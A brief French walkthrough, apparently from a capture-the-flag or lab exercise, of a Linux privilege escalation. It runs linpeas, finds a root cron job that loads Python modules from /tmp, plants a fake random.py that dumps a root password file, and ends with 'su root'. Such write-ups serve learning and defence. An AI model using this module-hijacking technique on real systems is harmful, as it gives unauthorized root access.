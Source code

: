 ## ÉTAPES

### Linpeas - Inspection
- Téléchargement du script linpeas depuis le compte user :
> wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
- Lancement du script
> chmod +x linpeas.sh
./linpeas.sh
- Potentielle failles détecté
		- Processe cron executé sous root
		- Dans les crontab, un script python /root/script.py est executer toute les 2 minutes, en ajoutant /tmp au PYTHONENV
		- Dans les fichiers modifié sous 5min, on voit un /etc/toremember.txt auquel l'user n'a pas accès

### Escalation
- L'user a la permission read sur le script /root/script.py:
> cat /root/script.py

On voit que la librairie python random est utilisé
- Création d'un faux module random.py pour userper la lib officiel et afficher le contenu du fichier /etc/toremember.txt
> echo 'import os; os.system("cat /etc/toremember.txt > /tmp/root_pass")' > /tmp/random.py
- Après 2min le script /root/script.py est executé et vient lancer notre script random.py
- L'user peut accèder au contenu du fichier:
> cat /tmp/root_pass
- L'user obtient le mot de passe et peut changer de compte pour avoir des privilèges root
> su root
